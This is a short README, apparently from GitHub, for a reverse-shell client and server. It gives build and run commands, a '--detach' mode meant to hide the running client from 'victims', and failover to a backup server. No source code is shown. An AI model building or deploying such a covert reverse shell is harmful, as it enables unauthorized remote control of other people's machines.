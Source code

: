 # Reverse Shell
this projects contains a client side and a server side
## client side:
```
make && ./client -i ip -p port --detach 
```
if you use --detach it makes a child process and kills the parent and  detachs the child from terminal so the victims does not realize that the program is still running 
and reroute stdout to a file for debug purposes
client gets a back up port and ip and makes a child process so if we confronted any problems with connecting to the current server the it signals the already made child process to proceed and connect
to the back up server with the given back up port and ip given from the server during  the handshake

## server side (ordinary)
```
make && ./server -p port -b backlog -s part_size -bp backup_port -bi backup_ip 
```
it sends the part size to the client and each socket will sends maximum of part size data 
you can change that for better performance

## server side (multi client) 
```
make && ./server -p port -b backlog -s part_size -bp backup_port -bi backup_ip  -t thread_num
it uses thread pool for dealing with clinets and a seperate thread for accepting them
thread_num indicates that how any threads we want to have in out thread pool
it is important that it should be at least 5 threads and an optimal of 10 threads
```

## how to run 
run ```make``` for both to compile them 
### server side
```
./out/server.out -b 4 -s 400 -bp 3001 -bi 127.0.0.1  -p 3000

```
add  ```-t 10 ``` for threaded server and change ./out/server.out to ./out/parserver.out
### client side
```
./out/client.out -i 127.0.0.1  -p 3004 --detached
```
